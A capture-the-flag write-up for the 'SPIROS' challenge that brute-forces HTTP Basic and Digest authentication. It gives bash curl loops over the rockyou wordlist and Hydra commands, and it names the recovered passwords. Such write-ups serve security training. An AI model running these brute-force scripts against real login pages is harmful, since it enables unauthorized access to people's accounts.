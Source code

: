 # SPIROS (BASIC & Digest auth)

## Challenge: 

![challenge description-basic](img/auth/basic%20auth.png)

![chalenge description-digest](img/auth/digest%20auth.png)

## Solution (Basic auth):
This challenge requires us to use either a bash script or [Hydra](https://github.com/gnebbia/hydra_notes#http-basic-authentication) to brute force the password for the user named "peter".     

Below is the bash script that I created to brute force for the password.

```
#!/bin/bash

for p in $(cat /usr/share/wordlists/rockyou.txt)
do
	echo $p
	curl -u peter:$p https://www.spiros.ml/auth/basic.php
done
```

Running the command `./script.sh | grep -v "Incorrect username or password." | grep -v "You need to enter a valid username and p
assword."`, I obtained the password to be "michelle".

![Basic Bash password found](img/auth/basic%20bash%20pw.png)

We could also brute force for the password using Hydra. Running the command `hydra -l "peter" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-head /auth/basic.php -S`, I obtained the same password.
> For HTTP sites, omit the -S switch

![pw found by hydra](img/auth/pw%20found%20by%20hydra.png)

## Solution (Digest auth):
This challenge requires us to use either a bash script or [Hydra](https://github.com/gnebbia/hydra_notes#http-basic-authentication) to brute force the password for the user named "carlos". 

Using the following bash script, I was able to bruteforce the password.
```
#!/bin/bash

for p in $(cat /usr/share/wordlists/rockyou.txt)
do
	echo $p
	curl --digest -u carlos:$p https://www.spiros.ml/auth/digest.php 
done
```

The result of running `./digest_script.sh` gave us the password as "superman".

![pw for digest bash](img/auth/bash%20digest%20pw.png)

We could also use Hydra to obtain the same password, by running the command `hydra -l "carlos" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-get /auth/digest.php -S`.

![hydra digest pw](img/auth/hydra%20digest%20pw.png)